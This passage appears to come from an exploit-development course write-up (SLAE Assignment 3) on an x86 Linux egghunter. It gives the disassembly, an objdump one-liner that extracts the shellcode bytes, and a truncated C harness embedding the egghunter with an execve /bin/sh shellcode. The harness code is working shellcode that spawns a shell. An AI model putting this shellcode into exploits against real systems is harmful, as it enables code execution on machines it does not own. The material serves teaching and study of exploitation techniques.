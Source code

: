 egg:     file format elf32-i386


Disassembly of section .text:

08049000 &#x3c;_start>:
 8049000:   bb 90 50 90 50          mov    ebx,0x50905090
 8049005:   31 c9                   xor    ecx,ecx
 8049007:   f7 e1                   mul    ecx

08049009 &#x3c;npage >:
 8049009:   66 81 ca ff 0f          or     dx,0xfff

0804900e &#x3c;naddr >:
 804900e:   42                      inc    edx
 804900f:   60                      pusha
 8049010:   8d 5a 04                lea    ebx,[edx+0x4]
 8049013:   b0 0c                   mov    al,0xc
 8049015:   cd 80                   int    0x80
 8049017:   3c f2                   cmp    al,0xf2
 8049019:   61                      popa
 804901a:   74 ed                   je     8049009 &#x3c;npage>
 804901c:   39 1a                   cmp    DWORD PTR [edx],ebx
 804901e:   75 ee                   jne    804900e &#x3c;naddr>
 8049020:   39 5a 04                cmp    DWORD PTR [edx+0x4],ebx
 8049023:   75 e9                   jne    804900e &#x3c;naddr>
 8049025:   ff e2                   jmp    edx
</pre>

Then the <em>shellcode&nbsp;</em>will be produced using <strong>objdump</strong>&nbsp;as follows

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment3</b></span># objdump -d ./egg|grep '[0-9a-f]:'|grep -v 
'file'|cut -f2 -d:|cut -f1-5 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 
's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0
\x0c\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
</pre>

The following program will be used for the execution of the Egghunter

```c
#include <stdio.h>
#include <string.h>

#define EGG "\x90\x50\x90\x50"

unsigned char egghunter[] = \
"\xbb"
EGG
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x0c\xcd\x80\x3c\xf2
\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

// execve stack shellcode /bin/sh
unsigned char shellcode[] = \
EGG
EGG
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53
\x89\xe1\xb0\x0b\xcd\x80";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)()) egghunter;
```